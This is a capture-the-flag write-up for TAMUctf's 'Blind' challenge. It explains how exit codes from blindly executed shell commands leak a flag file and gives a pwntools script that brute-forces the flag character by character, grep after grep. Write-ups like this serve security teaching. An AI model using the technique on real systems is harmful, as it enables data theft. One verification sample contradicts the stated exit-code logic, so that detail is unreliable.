

# Blind

## Description

> nc challenges.tamuctf.com 3424

## Solution

By connecting to the resource, the program prints "Execute: " and we can enter text. Then depending on what text is entered, a number is given back. Some examples:


Best guess is that the output is the error code sent by the command. [This page](https://shapeshed.com/unix-exit-codes/) gives some examples of error codes:
- 0: success
- 1: general errors
- 127: command not found

Therefore as the challenge name suggests, we need to find the flag but without seeing the output of commands given, only their error codes. We have seen that flag.txt exists, so we now need to fetch its content.

First I have tried to send the flag via mail or on a TCP server, but without success (seems like all ports are closed except port 22). Plus we cannot install anything on the server.

Therefore I came up with a command which returns 0 if I get part of the flag, or 1 if I don't:
```
cat flag.txt | grep 'input'
```
We verify with:
```
cat flag.txt | grep 'input'
=> Output 0
cat flag.txt | grep 'gigem{'
=> Output 1
```

So this work! Now we just need to brute force the flag character by character. This Python script does the job:
```python
from pwn import *

sh = remote('challenges.tamuctf.com', 3424)

print(sh.recvuntil("Execute: "))

found = "gigem{"
while '}' not in found:
    for c in '.abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ}':
        sh.sendline("cat flag.txt | grep '" + found + c + "'")
        rcv = sh.recv()
        if rcv[0] == ord('0'):
            found = found + c
            print()
            print(found)
            break
        elif rcv[0] != ord('1'):
            print("Try again: {}".format(rcv))
            break
```
Flag: gigem{r3v3r53_5h3ll5}